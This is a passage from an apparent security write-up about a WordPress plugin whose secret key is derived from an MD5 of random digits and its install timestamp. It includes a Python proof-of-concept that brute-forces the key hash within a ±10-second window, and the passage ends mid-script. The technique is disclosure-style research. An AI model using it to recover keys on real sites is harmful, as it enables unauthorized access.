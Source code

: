 From the response we can infer that the plugin was installed about the `Wed, 12 Mar 2025 15:52:40 GMT` 

Now knowing the time , we can calculate all the possible combinations by inserting a tolerance of +-10 seconds in the timestamp we have about 25 million combinations that with some time and patience we can use to fuzz the parameter “p”

**Practical examples** 

I wrote a python script to demonstrate the weakness of the algorithm that generates the key , the script simply tries to crack an md5 in this case I used the key taken from the db 'wp_options'

```python

import hashlib
import time
from datetime import datetime, timezone

# Target hash to find
target_hash = "1ea5aaa45f46e51857793f651b576cc6" # Taken from the wp_options db 

# Convert the given date to a Unix timestamp
target_dt = datetime(2025, 3, 12, 15, 52, 40, tzinfo=timezone.utc) # Taken from the header Last-Modified: Wed, 12 Mar 2025 15:52:40 GMT
target_timestamp = int(target_dt.timestamp())

# Define the interval of ±10 seconds around the target timestamp
start_time = target_timestamp - 10
end_time = target_timestamp + 10

print("Starting search...")

found = False
attempts = 0

# Record the start time
start = time.time()

# Iterate over all possible timestamps in the interval
for t in range(start_time, end_time + 1):
    # Iterate over the three random numbers (from 10 to 99 inclusive)
    for r1 in range(10, 100):
        for r2 in range(10, 100):
            for r3 in range(10, 100):
                attempts += 1
                # Create the string by concatenating the values
                s = f"{r1}{r2}{t}{r3}"
                # Calculate the MD5 of the string
                h = hashlib.md5(s.encode()).hexdigest()
                # If the hash matches the target hash, print the details
                if h == target_hash:
                    print(f"Found! r1={r1}, r2={r2}, timestamp={t}, r3={r3} => string: {s}")
                    found = True
                    break
            if found:
                break
        if found:
            break
    if found:
        break

# Record the end time and calculate the total time
end = time.time()
total_time = end - start

if not found:
```